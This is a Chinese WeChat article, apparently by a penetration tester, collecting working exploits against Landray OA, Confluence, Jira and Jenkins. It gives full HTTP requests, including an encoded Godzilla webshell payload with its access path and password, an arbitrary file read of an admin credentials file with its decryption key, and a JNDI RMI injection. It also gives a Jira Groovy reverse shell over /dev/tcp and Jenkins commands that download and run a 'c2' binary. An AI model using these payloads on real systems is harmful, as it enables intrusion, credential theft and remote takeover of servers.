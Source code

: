 #  漏洞利用记录(蓝凌&Confluence&Jira&Jenkins)

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

最近测试攻入内网，碰到了很多漏洞，有些还需要去查找poc利用，比较浪费时间，还是简单记录下，方便后续查找吧，也有很多都是直接工具集成利用的，懒得整理了，有需要的可以公众号私信获取。

 **1、蓝凌OA前台sysSearchMain.do远程命令执行**

直接写入哥斯拉马

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 6882Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader"><void+method%3d"loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$b5X$5bs$db$c6$V$3e$b4$rSV$e88$91$e3$5b$92$sM$da4$ce$c5$WH$8aQ$Y$3bI$F$8a$A$c1$L$q$R$q$40$mmS$dc$E$80$c4$z$E$u$Sl$7fNg$fa$9c$X$b9S$cf$f4$H$f4$P$f5$ad$d3$b3$e0M$92e$3b$cd$b4$f6$I$Ev$cf$9e$3d$e7$3b$d7$dd$7f$fe$fb$ef$ff$A$80$o$fcy$T$de$87$c7Yx$b2$JW$e0$f1$s$7c$N$df$90$c7$b7$h$f0$dbM$d8$Dz$T$w$b0$bf$JU$606$81$85$da$spP$cfB$p$L$cdM$b8$B$8f7$a0$b5$J$f7$80$t$l$H$hpH$7e$8f6$n$H$ed$N$Q$b2$d0$d9$84$3b$84$7b$97$fc$8a$h$m$R$e2$k$99$97$c9C$c9$c2wY$f8$5d$G$ae$3dq$7c$t$fe$s$DW$l$7c$of$60$ad$S$Yf$Gn6$j$df$e4G$9ef$O$3b$aa$e6$e2$c8V3$d0UWT$87$O$f9$9e$P$ae$c5$b6$T$919F$8d$e2z$U$f8U$dd$O$e8J$b5$f98$D$9b$d5$89n$86$b1$T$f8H$b1$e6$a9$8e$9f$81$3b$P$bek$f6$d5$Tu$dbU$7dk$5b$88$87$8eo$3dN$b7U$87$W$92$dd$bad$3a$D$hOtw$n$a4$ee$o$d9$9bg$a8$w$ae$gEH$b4$W$aa$b1MD$b9$84A$$$c4$97X$g$3a$b19$yd$e0$f6$8c$c6$J$b6$PW$e3H$b6$k$d9$a6$ebf$mk$98$3a$a20$cc$c0$bdf4$f2$b7$3d$t$d2$b7$e9$3d$a1$fa$c5$ce$fel$86$f0$9c$R$cd$f6$c8$c0$N$nV$f5AK$NSd$Q$5c$E$40$IFC$ddd$i$82$d4$ed$8b$I$3d$o2$e4$e0$97$f0A$G$de$b88$99$85$df$e7$e0$P$f0$7d$O$fe$I$wZC$8b$ecG$9c$8fR$86C$T$9fY$d0r$a0$83$91$F3$H$c7$60e$c1$ce$81$D$fd$y$Mr$e0$82$97$F$3f$H$B$84$I$e8$r$9af$e0$eeE$8c$e8$91$e3$a6$Kg$a5$w$fd$90$e3$99$i$fc$A$c3$iD$Q$p$dan$609$fe$f7$ae$T$c5$89$Z$3d$eaGa$OF$Q$S$d9O27$febJ$dd$_$ebB$d5$ea$W$db$89$w$95$7c$aef$f7$P$Fn$wO$V$b7$c5r$3br$c7$ed$b7$3a$dd$a4$d5o$db$5c$3f$3aCG$dbz$b1U$e6$7c$d7$d5$Tn$97cxJ$f7$dc$91$92$d0$b1$b2$df$zk$d2Q$be1$a3$Z$9al$x$3cH$e8$be$c62S$3d$a1e$8e$Vw$MV$i$v$b5$96uT$98$m$N$df$d2$K$cc$40$e9$d5w$f5$9a$e8h$ac$db$e7$Y$x8$3f$c7Y$a6$e3$ee$eaEq$8c$ef$81$e9$Mv$8f$7bt$5e$f6$s$a1$9c$d0$fbs$de$ed$G$5b$_$no$ad$t$d0$7d$99$d0$7b$oe$f4$ea$p$ae$c6$e7uVL$9a$5e$dbU$88$9c$5d$3e$92$7b$fc$b4$c1$f2N$b3$b27nV$I$7d$vRP7$83$b5$c2$83$oe$9d$e1$ef$98$bd$b6$x$e5$v$cb$ac$d8$cbw$3d$998Z$a1$8ck$98$R$c7R$a1$99$d0$94$ee$bb$bb$aa$c7$U$e4$9e5$92$8b$f5$92$5ek$9f4$H$7c$a8$b3$b6$ab$3bt$ffP$Km$c3cv$9a$k$9f$98$3d$9a$d2$92$d2$be$da$a3$D$d4i$a4$UDJ$90JS$83eFr$a1$hp$D$86$e9$s$5cxPh$8d$Q$f3$d0$a8$d8$f1$e1$b4$faE$cb$99$8c$94$9en$3d$b7$8f$cf$8f$V$a95$ea$W$c4$3e$d1$5b$u$88$a5n$91v$e5$c4$de$91$93$92$af$f4$da$V$o$bb$9eXa$b3R$a7$dbb$cbi$I$83$VFlk$a4$b0e$W$f7$b2$b5$8a$3dmt$o$ebX$e2m$83$e5$D$aeb3$s$cb$bb$b8O$a8$Vv$yE8$83$z$5b$cak$ecx$97$ab$e5$cb$e8$X$L$cc$88$k$94$w$b5V$3e$c3$e6$H$bc$60w$8cZ$3d$d4$3c$j$f1$hXf$7e$e97$89$d2$3b$b2$O$FzdH$93$e8$A$d7$98$C$3d$c3R$uM$V$J$ed$e7$b9$94$v$94x$F$ed$sK$86$dbf$5d$d4$89$a7$Q$fb$5dM$d8$xs$y$c1$b6$3a$d2Q$7f$94$x4j$83QG$S$a7z$81$f1$95n$3bD$7c$a7F$r$c5$a1$ae$f9$3c$rK$a5$be$oXN$a7$7b$94$e7$d0$9f4$a1$84$3e$d2F$7d$bb$81$fe$i$5e$a9$8fL$9b$de$c4$d5$3c$83R$xV$d8$e8$c4K$99$97$f6$QJ$b1$dck$H$cdA$3dT$uw$84$be$e8$T$7fm$Jc$L$f9$PT$94$5b$_$k$F$88$3b$ce$95$XX$E$ad$8e$i6$fd$f6$89$d8$a3$d1$bf$eb$fb$e8$9bn$a3$82$3eN$fc$b8$d7$ee$ab$95$bd$a0$dd$b3$fb$K$fa$8c$w$95$R$f3n$c8$d5$e2$f2$ca$bf$eb$ae$b1$8f$f6$S$e8$b1$n$d5$p$82$bb$5e$q$ba$90XZb$ec$Q$be$7c$bf$cdh$k$7f$a2$a0$9e$b2$efR$8a$Y$h$i$5b$9f6$E$e4$5d$ab$9f$Y$c5$96un$afZ$bc$88$af$f9$fa$a3$ddU$kPl$ad$s$ba$dc$3eei$be$Yi$fb1$c6$A$da$b5P$b7$f5B$b7$c0$ef$e7$e7kK$9eV$ac$l$c8R$k$f5$aa$ff$m$f7$U$bb$e9$8b$c8$7f$3c$3a$f2$98$a9$d2$91$vb$83N$a1$fe$D$da$9a$e2$aa$o$c6$409$8d$7b$c4w$b1o$g$phSJe$cb$D$e4Cl4$d7EL8g$3c$93$a12$m$f1R$d0$K$b1$8b$f9$60$sGe9$b7$8b$f1$X$ZR$X$f9$ee$F$L$3d$g$dd$e5$7e$e9$k$b3$dc$d3B$3b$a5$7e$80$3e$d7$O$b4$c2Q$c0ys$3a$b1$7d$b2$c4$80$ec$eb$89E$ae$3a$cb$vi$9eX$e5$M$a4Oy$a1m$ce$c8$b5$d2$_$c2$f8q$8d$84$3e$94$bd$d0$95$8bm$92$bbv$89$3d$b8$g$95$e6$n$b9$c0Pr$c1$b2p$cd$8e$5c$Q$c7h$d3$T$cd$a1$5d$b4$d7$$$faO$89$abE$96$3c$c7$f0p$9e$d7$9a$9er$a2$P0$8e$r$cc$p$3e$9f$d7$9cR$ac$f6$f8$3e$fa$r$dd$a5$Q$8f$d5$fe$O$89$f3W$e1N$f4$3b$9b$9b$c8$9a$ff$J$8e$c2R$ff$99$9f$e4$d1$X$89$3es$bf$c4$3c$99$eaC$b0h$a2$P$h$5ey$a8$I$f6$d2$e6$Y$93i$ec$z$e4_$60$8f$beZ$c6$f8$c4$9c$f0$82$fc$d5$e1$d2$f89$eea$dc$d4$c4$E$f1$y$c8$d2$q$aft$5e$QC$ab$ba$b2$88$a1$w$ee$97$c6$d0$w$bf$fdw1$b4$8c$bd$ffW$M$b1m$f7$t$c6$d0$5c$97$9f$XC$L$3d$g$d2r$bfW$d8$7eN$f7$C$db$_$f0$7c$81$ed$H$LY$7f$b6$ed$F$c4v$5e_8$f6$a5$YO$Nig$a4I$ee$U$ebg$e5H$e4$99$95$dd$JV$83$5d$aeZvT$P$ebM$85$5e$caE$ec$b8$88$c7$a6$87$faa$j$m$7e$84$3e$9b$e6$f4$b3$f6$5e$f5$x$eeJ$_$cfp$8dy$$A$fa$8b$f6Z$d0U$MI$f1H$fc$$p$98$f7K$b3$fc$b1$cc$f9$a5E$dfUF$3b$84$9a$af$9c$a8$Y$bf$b8$be$af$V$b0$b6$zs$d7$5c$Pf$R$7fi$bezY$fdIH$fe9$ee$e5$b1$G$b6$b16$ef$y$f2$B$eaG$b9$87$fd$b1Kr$T$fa$f0$on$G$c8$c7$3e$94$e6xW$X$3e$60$e3z$sO$eax$aa7$83$3d$a3$c7$c4$K$a9$bb$8e$3dN1$409$U$ec$r$e4N$7e$a7$91$d6$e7$w$fa$N$c1$Q$f1$ec$c4$a1$e2$ec$FX$f3$b1$ce$93$bc$98$fa$gm$d4$88$P$d5$f3$a4$96s$3em$9b$d2$e4D$96$8e0$d7Q$e5$99$Pc$ff$b2Z3$7d$d9$9a$e6$ccG$e5F$ad$j$a8$bd$d6e$be$3d$f3$j$8a$d0$T$b9$b17$QJ$ed$b9$ac$a4O$u$x$d2$E$f7$88W$ba$fa$3c$da$98$a1H$fd$971$86I$l$a2$b3LB$fc$O$f1J$b0$a7$8eR$9dQ$f7y_$Rb$af$98$f6$pG$bdz$o$f7$dcC$a3$d7$k$e3$l$e9$n$5cYB$9f$c3$f1NQ$a4$O$a5T$deY$7e$f0$5c$ec$3fS$h$d0$ba_$b7$cdn9o$60$8ff$a4$fe$n$da$9a$80$bd$$$b5$f4a$efPX$f4$dd$ad$f0$tc$8au$ed$f9$fa$Q$7bMO$9c$Y$S$T$e9$89m$e3$de$u$ef$R$f6$b2$f2$88$60$80$b9vJ$ce$H$88$e5$beV$uQJ$cf$a6f$fd$U$3f$c6$ef$a92$c3$b5Gz$3e$d2$3f$n$9e$c5$f4$5d$b0$c9$f9$C$e3It$f4E$cd$d9$df$8bH$ff$94$ee$e9$af$ea2$895$d4q$aa$b3e$ec$J$bb$a9$dd$c4$o$f6$85$88$_$89$x$p$7d$c7$kh$k$abm$ec$HIL4jV$b0$c0$92$f0$3b$o$f9$ad$cb$q$e8$97$r$5c$Xq$88$D$fay8$ef$9d_$c9$9f$9c$85$d0$dey$d9_$c4$a45$e1$9d$c1$ec$8c$f1$92$fe$faX$e8$7e$a6$8f$bf$fe$gO$de$97$ld$f1$ecy$f1$y$98$831L$f00$dc$ed0$P$bf$q$87$bc$q$HS8$c9$c1$9f$c8Q$f5$d6$8a$7cy$be$3f$c7$e4$40$eb$9bz$7cn$a8c$PM$d5$c03$b2$3e$g$OM$3f$5e$7c$bf$f5$e0$93$e6E$w$3cY$df$b6$cc$b8$S$e0iw$S$a7$87$fbf$a0$a6$92$de$3fG$7ef$8a$ac$b9t$o$D$d7$5d$7cIG2$f0$d1$83K$ee$k$$$b9I$b8ya$I$95F$89$O$87A$8c$8a$a1$ba$fb$c1$ec2$e3$c3$85$3c$91$89$8a9q$b2$7d$91$G$99$bd$f7r$K$E$r$d5$d60g$97$F$Zx$f79$ae$abY$e4w$efEs$Zx$N9$91K$9a$b9I$W$7c$7c3$de$ee$b6$c9$8dL$ee$ec7$9e$f5$89V$e9$a5$c9yC$y$afM$d6$a3$d0u$d0$94$l_$G$dc$a575$d7$d404$7d4$ed$c3W$60$7d$ee$da$81$5c$f1$c4$c1$e2$s$e5$f6eK$c5$e5$85$L$3d$3a$3e$s$96$bds$a9Pt$G$ee$3e$f8$8e$be$9cC6$bd$Gr$R$9cu$dd$N$o$T$3e$80$x$f0$3e$90$7fW$nC$aeb$f0$fb$c3$f4n$$$83$ff$B$d6$3f$7d$K$99$l$f1$e5$K$fc$K$9f$e4$9e$O$Ha$N$ae$c1$af$f1$z7$p$82$8f$e07$f8$fb1$fe$ad$e1$c8$7bp$j$k$c0$tsV$bb$f8K$a8$ae$3f$83$x$f2S$b8$w$5ddw$j6$f0m$c5$ee$3a$7c$K$9f$9dc$b7$B$9f$a3d$Z$c2$$s$V$b7$bb$863$f6$df$60$ed$U$d6$b7$ae$9dB$b6$f1$e9$vl$9c$c2$f5S$d8$3c$85$d7$9a$cf$m$t$3f$83$h$b8$d9$eb$9fm$dd$3c$857$ae$WN$e1$cd$ad$z$7c$9c$c2$ad$a7$f0Vk$eb6$ff$M$ee$m$c1$dd$af$d6$9e$c1$3d$f9$fe$da$c3S$b8$bf$f5$f6Sx$e7$ab$f5$cf$ef$af$9f$c2$bb$9f$9f$c2$_$fe$Kk$8d$lS$99t8F9$ae$a6R$3f$82$d7$f0$f9$3aJ$7b$T$de$867$e0$J$bc$J$df$c2$W$d4$e0$W$c8$f0$W$7c$P$b7$91$fe$$$ae$b8$D$W$dcO5$fb$Ge$ce$81$E$Pq5$e0$w$O$b6$81B$ceOP$cb$3c$U$Q$87o$91$ae$88cW$91$cf$3b$b0$D$r$d4$5dF$5c$be$c0$b1u$E$91$e0r$e5_p$9c$85$_$R$F$u$a7$m$7e$f5$l$fci$9akK$V$A$A</string><void+method%3d"newInstance"></void></void></void></java>

访问路径/login_listyes.jsp，密码：yes

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180658.png)

 **2、 蓝凌OA前台任意文件读取**

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 60Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180659.png)

解密密码：kmssAdminKey  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180700.png)

后台地址：/admin.do

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180702.png)

 **3、蓝凌OA后台JNDI远程命令执行**

###

登录后台

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: Content-Type: application/x-www-form-urlencodedContent-Length: 69  
    method=testDbConn&datasource=rmi://******:1099/remoteExploit7

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180703.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180704.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180706.png)

 **4、Confluence写入内存马**

直接上工具，利用CVE-2022-26134写入内存马 **  
**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180707.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180708.png)

在请求配置中添加如下内容：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180709.png)

利用后渗透插件，一键添加Confluence管理员账号：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180710.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180711.png)

 **5、Jira getshell**

查看版本信息，路径：/secure/admin/ViewSystemInfo.jspa

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180712.png)

下载对应插件版本

  * 

    
    
    https://marketplace.atlassian.com/apps/1218755/mygroovy/version-history

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180713.png)

进入插件管理，上传插件，路径：/plugins/servlet/upm

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180714.png)

上传后访问，/secure/JMWEGroovyScriptTester.jspa，执行如下命令

  *   *   * 

    
    
    def r = Runtime.getRuntime()def p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180715.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180717.png)

 **6、Jenkins getshell**

路径：/jenkins/script

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180718.png)

  * 

    
    
    println "wget http://ip/c2".execute().text

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180719.png)

  * 

    
    
    println "ls -lt".execute().text

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180720.png)

  * 

    
    
    println "chmod +x c2".execute().text

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180722.png)

  * 

    
    
    println "./c2".execute().text

执行完直接上线cs

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

